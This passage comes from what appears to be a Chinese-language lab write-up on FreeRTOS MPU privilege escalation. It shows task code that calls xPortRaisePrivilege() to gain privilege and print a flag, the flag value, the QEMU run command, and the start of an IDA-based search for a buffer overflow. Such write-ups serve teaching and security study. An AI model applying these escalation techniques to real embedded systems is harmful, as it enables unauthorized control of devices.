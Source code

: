 - 至此，可以确定存在的提权漏洞即为`xPortRaisePrivilege()`以函数形式存在的漏洞。因此，用于提权的函数即为`xPortRaisePrivilege()`，其地址为`0x00008EDC`：

![image-20220630052533966](https://raw.githubusercontent.com/BIIIANG/pic/main/202206300525049.png)

### 3. 根据以上漏洞完成漏洞利用

- 该任务可以填写任意代码，因此最简单的方式即为直接调用`xPortRaisePrivilege()`函数进行提权，然后进行特权操作输出`Flag`即可，因此修改后的代码如下（也可以结合使用函数地址和函数指针进行调用，此处直接调用了相应函数）：

```c
void vTask3( void * pvParameters ) {	
	
	/* write your malicious code here */
	xPortRaisePrivilege();
	vTaskRemove();

	printf("Attack successful!\n");
	
	for( ; ; ) {}
}
```

- 修改后编译生成可执行文件，执行方式和结果如下，`Flag`为`1264931`：

```shell
qemu-system-arm -M mps2-an386 -cpu cortex-m4 -m 16M -nographic -d in_asm,nochain -kernel task3a.axf -D log.txt
```

![image-20220630094423997](https://raw.githubusercontent.com/BIIIANG/pic/main/202206300944089.png)

## `TASK3-2` 利用溢出漏洞实现在`FreeRTOS MPU V10.4 `版本的系统提权和`Flag`函数打印

### 1. 寻找存在溢出的缓冲区

- 使用`IDA`进行逆向分析，主函数的反编译结果及相关注释如下：

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  uint32_t i; // r4
  int v4; // r1
  unsigned int value; // [sp+0h] [bp-10h]
  uint32_t id; // [sp+4h] [bp-Ch]

  value = (unsigned int)envp;
  prvSetupHardware();
  // 输入学号后4位并回显
  _2printf("input your last 4-digital id, please press 'Enter' to end\n");
  _0scanf("%u", &id);
  _2printf("id = %u\n");
  // 输入buffer长度，应小于100，否则会提前退出，被存储在length中
  _2printf("input Total buffer length, please press 'Enter' to end\n");
  _0scanf((const char *)&dword_9CE0, &length);
  if ( length < 0x64 )
  {
    // 输入十六进制的构造得到的buffer内容并回显，被存储到InputBuffer中
    _2printf("please input your %d-bytes overflow buffer Byte by Byte in hex value, please press 'Enter' to end once input\n");
    for ( i = 0; i < length; ++i )
    {
      _0scanf((const char *)&dword_9D0C, &value);
      InputBuffer[i] = value;
      v4 = InputBuffer[i];
```